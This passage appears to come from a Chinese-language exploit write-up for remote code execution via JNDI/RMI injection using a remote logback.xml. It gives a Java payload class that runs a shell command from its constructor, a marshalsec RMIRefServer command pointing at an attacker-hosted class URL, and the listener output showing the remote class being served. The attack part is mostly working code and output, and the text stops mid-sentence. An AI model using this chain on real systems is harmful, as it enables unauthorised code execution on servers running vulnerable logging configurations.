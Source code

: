 ExportObject.java

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class ExportObject {
   public ExportObject() throws Exception {
      Process var1 = Runtime.getRuntime().exec("touch /tmp/jas502n");
      InputStream var2 = var1.getInputStream();
      BufferedReader var3 = new BufferedReader(new InputStreamReader(var2));

      String var4;
      while((var4 = var3.readLine()) != null) {
         System.out.println(var4);
      }

      var1.waitFor();
      var2.close();
      var3.close();
      var1.destroy();
   }

   public static void main(String[] var0) throws Exception {
   }
}

```
## 0x04 RCE触发

监听 rmi 端口

```
root@kali:~/ldap_rmi# cat rmi.sh
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://10.20.24.191:8000/#ExportObject


root@kali:~/ldap_rmi# ./rmi.sh
* Opening JRMP listener on 1099
Have connection from /10.20.24.191:43878
Reading message...
Is RMI.lookup call for ExportObject 2
Sending remote classloading stub targeting http://10.20.24.191:8000/ExportObject.class
Closing connection



```

浏览器访问加载远程logback.xml文件进行解析,
